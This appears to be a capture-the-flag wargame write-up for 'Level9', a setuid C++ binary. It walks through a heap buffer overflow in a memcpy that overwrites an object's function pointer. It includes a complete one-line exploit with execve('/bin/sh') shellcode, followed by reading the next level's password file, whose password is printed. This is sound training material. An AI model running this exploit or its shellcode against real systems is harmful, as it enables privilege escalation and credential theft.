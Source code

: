 # Level9

## Context & Explanation
 * There is one file in our home, ```level9```, belonging to ```bonus0``` user, with suid.
 * Here's the decompiled source code we propose for this binary: [source.c](source.c)

 * We run the program with gdb and we observe that:
 	* In the `main()`
		* `_Znwj@plt()` is called to allocate `0x6c` of memory
		* `_ZN1NC1Ei()` is called to fill the previously allocated memory, with a function pointer pointer, and a value at the end.
		* We repeat a second time these 2 operations.
		* `_ZN1N13setAnnotationEPc()` is then called on object_1
			* a `memcpy()` is done on `av[1]`
		* Finally, the function pointer pointer of the 2nd object is called.

## Exploited vulnerability

* We will use a Buffer-Overflow attack on the `memcpy()` to make use of the 2nd function pointer pointer to execute a shellcode.

* The shellcode we used is a call to `system("/bin/sh")`

* Here is a visual representation memory layout : ![Layout](Layout_Objects.png)

## Resolution

```sh
./level9 `python -c "print('10a00408'.decode('hex') + '\x31\xc0\x31\xdb\x31\xc9\x31\xd2\xb0\x0b\x53\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\xcd\x80' + '\x90' * 79 +  '0ca00408'.decode('hex'))"

$ cd ..
$ cd bonus0
$ cat .pass
f3f0004b6f364cb5a4147e9ef827fa922a4861408845c26b6971ad770d906728
```
